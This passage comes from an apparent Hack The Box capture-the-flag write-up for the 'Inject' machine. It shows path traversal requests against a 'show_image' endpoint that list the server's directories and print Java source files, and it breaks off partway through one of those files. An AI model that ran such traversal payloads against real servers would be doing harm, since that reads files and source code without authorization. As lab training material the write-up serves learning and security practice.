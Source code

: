 - `python3 httpget.py "http://inject.htb:8080/show_image?img=../"`
    ```
    java
    resources
    uploads
    ```

    So server side java is present, I keep on enumerating

- `python3 httpget.py "http://inject.htb:8080/show_image?img=../java"`
    ```
    com
    META-INF
    ```

- `python3 httpget.py "http://inject.htb:8080/show_image?img=../java/com"`
    ```
    example
    ```

- `python3 httpget.py "http://inject.htb:8080/show_image?img=../java/com/example"`
    ```
    WebApp
    ```

- `python3 httpget.py "http://inject.htb:8080/show_image?img=../java/com/example/WebApp"`
    ```
    user
    WebAppApplication.java
    ```

    `WebAppApplication.java`
    ```java
    package com.example.WebApp;
    import org.springframework.boot.SpringApplication;
    import org.springframework.boot.autoconfigure.SpringBootApplication;


    @SpringBootApplication
    public class WebAppApplication {

            public static void main(String[] args) {
                    SpringApplication.run(WebAppApplication.class, args);
            }
    }
    ```

    Nothing interesting.

- `python3 httpget.py "http://inject.htb:8080/show_image?img=../java/com/example/WebApp/user"`
    ```
    User.java
    UserController.java
    ```

    `User.java`
    ```java
    //package com.example.WebApp.user;
    //
    //import org.hibernate.annotations.GeneratorType;
    //import org.hibernate.annotations.ValueGenerationType;
    //
    //import javax.persistence.*;
    //
    //@Entity
    //@Table(name = "zodd_users")
    //public class User {
    //    @Id
    //    @GeneratedValue(strategy = GenerationType.IDENTITY)
